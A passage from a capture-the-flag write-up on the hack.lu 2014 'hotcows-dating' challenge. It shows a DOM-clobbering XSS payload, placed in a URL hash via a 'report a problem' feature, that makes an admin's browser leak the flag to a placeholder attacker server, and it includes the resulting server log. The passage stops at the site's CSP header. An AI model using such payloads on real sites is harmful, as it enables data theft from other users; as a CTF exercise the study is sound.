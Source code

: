 Now we have access to [the full source code for the site](https://github.com/ctfs/write-ups/tree/master/hack-lu-ctf-2014/hotcows-dating/source).

Studying the code reveals that the flag is messaged to premium account users when they start a new chat session. See [the `page.firstMessage` function in `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L200-L218). Since there’s no way for us to get a premium account, we’ll have to find a way to have a premium user do this for us, and then leak the flag somehow.

We guessed that the ‘report a problem’ functionality would cause a logged-in site administrator to visit the profile for the cow whose name you enter. What if we can get a cross-site scripting (XSS) vector in there?

Eventually, this is the cow name we entered (explanation follows):

```
https://our-server.example.com/<form name=getElementById></form>
```

We assumed that this would cause the server admin to visit the following URL:

```
https://wildwildweb.fluxfingers.net:1401/?p=chat#https://our-server.example.com/<form name=getElementById></form>
```

And indeed – a few moments later we got a hit on our server:

```
149.13.33.84 - - [22/Oct/2014 15:51:58] "GET /%3Cform%20name=getElementById%3E%3C/form%3E%20(PREM_flag%7Bcows_need_love_too!%7D) HTTP/1.1" 404 -
```

After URL-decoding, that becomes:

```
<form name=getElementById></form> (PREM_flag{cows_need_love_too!})
```

The flag is `flag{cows_need_love_too}`. But why on earth did this work?!

[The `page.view` function around line 134 of `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L131-L198) contains this snippet:

```js
cow_name = location.hash.slice(1);
/* … */
temp_main = new Template('cow.html');
temp_main.assign(cow_name, 'cow');
temp_main.render();
```

`location.hash.slice(1)` is the part of the URL following `#`, which is under our control. Since this value is never sanitized, this creates an XSS vulnerability. However, [the site is sending a CSP header which disallows inline scripts](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/cfg.php#L40):

```
Content-Security-Policy: default-src 'none'; img-src 'self'; script-src 'self'; style-src 'self'; connect-src 'self'
```
